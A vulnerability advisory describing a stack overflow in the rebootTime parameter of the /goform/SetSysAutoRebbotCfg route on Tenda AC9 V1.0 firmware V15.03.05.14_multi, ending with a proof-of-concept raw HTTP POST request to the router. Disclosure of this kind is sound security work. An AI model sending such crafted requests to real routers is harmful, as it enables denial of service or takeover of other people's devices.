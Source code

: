 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the rebootTime parameter of route /goform/SetSysAutoRebbotCfg has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the formSetRebootTimer function in Tenda AC9 V1.0 firmware V15.03.05.14_multi.This function retrieves the rebootTime parameter from a POST request.The strcpy function does not check the size of the target buffer when processing the rebootTime parameter. If the copied data exceeds the capacity of the buffer, a buffer overflow may occur. An attacker can easily execute a denial-of-service attack or remote code execution using carefully crafted overflow data.

![img](./img/SetSysAutoRebbotCfg.png)

## Poc
```py
POST /goform/SetSysAutoRebbotCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

rebootTime=00:88888
```
